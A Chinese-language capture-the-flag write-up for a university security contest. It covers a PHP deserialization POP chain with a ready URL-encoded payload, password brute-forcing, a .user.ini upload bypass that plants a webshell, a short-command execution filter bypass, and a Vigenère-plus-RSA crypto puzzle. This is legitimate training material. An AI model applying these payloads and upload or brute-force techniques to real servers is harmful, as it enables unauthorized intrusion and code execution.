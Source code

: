 ```yaml
---
title: 武功论剑
date: 2024-07-26 18:59:10
tags: 
       - 题解
       - 复现
categories: 比赛复现
---
```


## 武功山杯·第一届湘赣边大学生网络安全竞赛

### 石能为鼓

我们打开页面源码，发现一个文件

<!--more-->

![image-20240726194119325](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407261941434.png)

我们打开，发现一串代码

```
<?php
show_source(__FILE__);

class ping {
    protected $xiang;

    function __construct() {
        $this->xiang = new fun();
    }

    function __destruct() {
        $this->xiang->cp();
    }
}

class fun {
    function cp() {
        echo "hello";
    }
}

class cup {
    private $data;
    function cp() {
        eval($this->data);
    }
}

unserialize($_GET['d']);
```

这道题考的试反序列化，我们构造pop链

```
<?php

class ping {
    protected $xiang;

    function __construct() {
        $this->xiang = new cup();
    }

    function __destruct() {
        $this->xiang->cp();
    }
}

class fun {
    function cp() {
        echo "hello";
    }
}

class cup {
    private $data='system("tac /flag");';

}
$a=new ping();
echo urlencode(serialize($a));
```

payload

```
?d=O%3A4%3A%22ping%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00xiang%22%3BO%3A3%3A%22cup%22%3A1%3A%7Bs%3A9%3A%22%00cup%00data%22%3Bs%3A20%3A%22system%28%22tac+%2Fflag%22%29%3B%22%3B%7D%7D
```



### 龙溪秘境

我们访问hint，可知这题需要进行爆破

我们查看网页源码，可以发现密码进行了base64加密

![image-20240728185857109](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407281859197.png)

因此，我们进行爆破的时候，需要将密码进行base64加密

我们选择集装束爆破

![image-20240728192018900](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407281920939.png)

我们在第一个位置加载常用用户名字典

在第二个位置加载常用密码，并将编码类型选择为base64加密

![image-20240728192049079](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407281920117.png)

开始爆破

我们发现用户名为test，密码为admin时的输出长度不同

![image-20240728191850146](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407281918189.png)

我们登录试试

![image-20240728192145724](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407281921020.png)

提示密码错误，说明用户名正确，我们就只需要爆破密码就行了

![image-20240728192319754](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407281923829.png)

当密码为654321时输出不同，说明可能是正确密码我们登录

登录成功，获得flag

![image-20240728192408870](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407281924239.png)



### 龙池古庙

我们访问hint，提示这题需要传.use.ini文件

我们包含自身（一句话木马）

![image-20240728200906341](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407282009427.png)

我们先上传.use.ini，但提示不被允许，我们抓包修改类型

![image-20240728200939872](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407282009897.png)		上传成功

![image-20240728193023687](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407281930792.png)

成功包含

![image-20240728201001414](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407282010442.png)

我们连接蚁剑，找到flag

![image-20240728201111045](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407282011064.png)

### 武功论剑

### 真君擒龙

打开页面，审计代码

```
<?php
show_source(__FILE__);
$cmd=$_GET['cmd'];
if(isset($cmd)&&strlen($cmd)<6&&!strpos(strtolower($cmd), 'nl')){
    system($cmd);
}else{
  die("no!no!no!");
}
```

我们需要通过命令执行获取flag，由于限制了cmd的长度，根据提示，我们使用od进行绕过

od:以二进制的方式读取档案内容

```
?cmd=od /*
```

![image-20240730202818091](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407302028230.png)

获得了一大串八进制字符串，我们将八进制字符串转换为二进制字节输出

```
a="0000000 066146 063541 031573 033064 032541 033546 026544 033470 0000020 030544 032055 032071 026466 034470 062066 061055 030062 0000040 032064 033066 030146 032067 076541 000012 0000053"
print(b''.join(int(ss, 8).to_bytes(2, 'little') for ss in a.split()))
```

得到flag

![image-20240730203417419](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407302034455.png)



此外，我们也可以用n*绕过nl

```
cmd=n* /*
```

![image-20240730203727557](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407302037581.png)

### 户外天堂

根据提示，我们需要进行维吉纳亚解密，然后再进行base64解密

写脚本

```
from Crypto.Util.number import *
from base64 import *
from gmpy2 import *
def key_extend(key,length):
    Key = key * (length // len(key) + 1)
    return Key[:length]
def encrypt(message,table,key):
    enc=''
    Key=key_extend(key,len(message))
    for i in range(len(message)):
        if message[i] not in table:
            enc += message[i]
            continue
        enc+=table[(table.index(message[i])+table.index(Key[i]))%len(table)]
    return enc
message='kr0gMDY1NTY5MDghNTU5MsozMhU5MzUgNiM3NTI0ODI5MsA2MrE3CmU9NsU1MhcKYz01NTkyOTk4MDM2Mio3Mrg0OTYfODE0OTcfNjUhMiA0MhUiODM='
table='abcdefghijklmnopqrstuvwxyz'
key = 'rsa'
print(b64decode(encrypt(message,table,key).encode()).decode()).

n=1065569082559283359352737524829206217
e=65537
c=557299803638728496181497065330435383
```

然后继续rsa解密

```
from gmpy2 import*
from libnum import n2s
p=1007395600713969067
q=1057746412436271451
e=65537
c=557299803638728496181497065330435383
n=1065569082559283359352737524829206217
phi=(p-1)*(q-1)
d=invert(e,phi)
m=pow(c,d,n)
print(n2s(int(m)))

//b'flag{DraG0o0n}'
```

